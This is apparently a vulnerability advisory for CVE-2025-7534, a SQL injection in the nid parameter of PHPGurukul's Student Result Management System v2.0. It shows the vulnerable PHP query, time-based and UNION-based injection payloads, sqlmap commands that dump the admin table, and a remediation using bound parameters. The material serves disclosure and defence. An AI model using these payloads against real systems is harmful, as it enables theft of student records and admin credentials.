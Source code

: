 **\[sql-injection] in \[Student Result Management System] <= \[v2.0]**

---

### 👨‍💻 **BUG Author:**

**4m3rr0r**

**CVE-2025-7534**

---

### 📦 **Product Information:**

* **Vendor Homepage:** [https://phpgurukul.com](https://phpgurukul.com)
* **Software Link:** [https://phpgurukul.com/student-result-management-system/](https://phpgurukul.com/student-result-management-system/)
* **Affected Version:** <= v2.0
* **BUG Author:** 4m3rr0r

---

### 🛠 **Vulnerability Details**

* **Type:** Time-Based & UNION-Based SQL Injection
* **Affected URL:** `http://localhost/srms/notice-details.php?nid=1`
* **Vulnerable Parameter:** `nid` (GET)
* **Vulnerable File:**

  * **File Name:** `notice-details.php`
  * **Path:** `/srms/notice-details.php`

---

### 🧨 **Vulnerability Type**

* **SQL Injection Vulnerability**
* **CWE ID:** CWE-89: Improper Neutralization of Special Elements used in an SQL Command
* **Severity Level:** CRITICAL
* **CVSS Score:** 9.1 (Base Score)

---

### 🧬 **Root Cause**

The application constructs SQL queries by directly inserting unvalidated user input into SQL statements without using prepared statements or escaping mechanisms. This allows attackers to inject arbitrary SQL commands.

```php
$noticeid = $_GET['nid'];
$sql = "SELECT * from tblnotice where id='$noticeid'";
$query = $dbh->prepare($sql);
$query->execute();
```

---

### ⚠️ **Impact**

* Unauthorized access to all database contents
* Exposure of sensitive student data and admin credentials
* Possible privilege escalation (admin takeover)
* Full database extraction via automated tools (e.g., sqlmap)

---

### 📋 **Description**

1. **Vulnerability Details:**

   * SQL query is dynamically constructed using unsanitized input (`$_GET['nid']`)
   * No validation, escaping, or parameter binding
   * Affects both UNION and time-based SQLi techniques

2. **Attack Vectors:**

   * Blind SQL injection with time delays (`SLEEP()`)
   * UNION-based injection to extract DB structure and contents

3. **Attack Payload Examples:**

   * Time-Based Injection:

     ```
     http://localhost/srms/notice-details.php?nid=1' AND SLEEP(5)-- -
     ```
   * UNION-Based Injection:

     ```
     http://localhost/srms/notice-details.php?nid=1' UNION ALL SELECT NULL,CONCAT(0x7161,USER(),0x7171),NULL,NULL-- -
     ```

---

### 🔬 **Proof of Concept**

#### ✅ Confirmed Using `sqlmap`

```bash
sqlmap -u "http://localhost/srms/notice-details.php?nid=1" --dbs
```

![Databases ](./Images/2025-07-10_03-26.png) 

Output:

* Injection Type: Time-based and UNION-based
* Database Extracted: `srms`
* Admin table dumped via:


```bash
sqlmap -u "http://localhost/srms/notice-details.php?nid=1" -D srms -T admin --dump
```

![Databases ](./Images/2025-07-10_03-29.png) 

---

### 🛡 **Suggested Remediation**

* Use **parameterized queries** (PDO with bound parameters)
* Validate and sanitize all user input
* Avoid dynamic SQL wherever possible
* Example secure code:

```php
$noticeid = $_GET['nid'];
$sql = "SELECT * FROM tblnotice WHERE id = :nid";
$query = $dbh->prepare($sql);
$query->bindParam(':nid', $noticeid, PDO::PARAM_INT);
$query->execute();
```

---

### 🔐 **Security Recommendations**

* Implement the **Principle of Least Privilege**
* Store passwords hashed and salted
* Conduct regular security audits
* Add a **Web Application Firewall (WAF)**
* Consider using modern PHP frameworks (Laravel, Symfony)

---

### 📚 **References**

* [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
* [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)

---

### 🕐 **Mitigation Timeline**

| Phase      | Action                         |
| ---------- | ------------------------------ |
| Immediate  | Use prepared statements        |
| Short-term | Add input validation           |
| Long-term  | Adopt ORM (e.g., Eloquent ORM) |

---
